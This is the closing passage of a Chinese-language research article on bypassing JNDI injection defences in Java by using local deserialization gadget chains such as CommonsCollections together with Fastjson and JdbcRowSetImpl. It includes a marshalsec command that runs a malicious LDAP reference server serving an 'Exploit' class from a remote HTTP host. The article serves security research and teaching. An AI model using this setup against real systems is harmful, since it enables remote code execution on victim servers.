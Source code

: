 这种绕过方式需要利用一个本地的反序列化利用链（如CommonsCollections），然后可以结合Fastjson等漏洞入口点和JdbcRowSetImpl进行组合利用。

## End

实战中可以使用marshalsec方便的启动一个LDAP/RMI Ref Server：

```
java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.jndi.(LDAP|RMI)RefServer <codebase>#<class> [<port>]

Example:

java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://8.8.8.8:8090/#Exploit 8088
```

本文内的相关测试代码见Github <https://github.com/kxcode/JNDI-Exploit-Bypass-Demo>


## Reference

- <https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf>
- <https://www.veracode.com/blog/research/exploiting-jndi-injections-java>
